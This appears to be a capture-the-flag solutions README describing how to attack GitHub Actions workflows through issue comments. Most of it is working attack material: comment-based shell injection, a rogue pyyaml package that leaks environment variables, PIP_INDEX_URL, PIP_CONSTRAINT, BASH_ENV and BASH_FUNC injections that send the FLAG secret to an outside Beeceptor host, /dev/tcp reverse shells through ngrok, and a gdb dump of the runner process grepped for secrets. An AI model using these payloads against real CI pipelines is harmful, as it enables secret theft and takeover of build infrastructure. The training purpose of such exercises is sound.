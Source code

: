 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("COUCOU TDF3")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```

Body Issue Comment:
``` bash
Where is my bash ??
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
5. Investigate in the runner 
The directory `/home/runner/work/_temp` look interesting...


> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```
Body Issue Comment:
``` bash
Where is my bash ??
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
5. Dump `Runner.Listener` process memory and check those secrets
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
